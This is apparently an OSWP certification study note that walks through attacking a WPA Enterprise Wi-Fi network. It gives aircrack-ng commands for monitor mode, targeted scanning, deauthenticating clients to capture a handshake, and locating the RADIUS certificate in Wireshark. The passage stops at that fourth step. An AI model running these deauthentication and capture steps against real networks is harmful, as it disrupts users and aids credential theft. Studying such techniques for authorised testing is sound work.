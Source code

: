 # OSWP Attacks and Techniques




# Attacking WPA Enterprise

1. Run an `airodump-ng`  scan: 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --band abg
```

We find our WPA Enterprise network of interest:

**Screenshot of initial airodump screenshot goes here:**
![](Files/image.png)

  

  

  

2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](Files/image.png)

  

  

3. We open a new terminal session and De-authenticate all clients on the Wireless network to capture a 4-way handshake

```
sudo aireplay-ng -0 10 -a <WIFI NETWORK MAC ADDRESS> -c  <CLIENT MAC ADDRESS> wlan0mon
```

**Screenshot of capturing 4-way handshake:**

![](Files/image.png)

**Screenshot of de-authenticating the client:**

![](Files/image.png)

  

  

4. After capturing  a 4-way handshake, we open up the PCAP file we captured in `wireshark` . We use the `wireshark`  filter `tls`  so we can find the RADIUS certificate. Specifically, we look for a packet with the info **“Server Hello, Certificate, Server Key Exchange, Server Hello Done”**
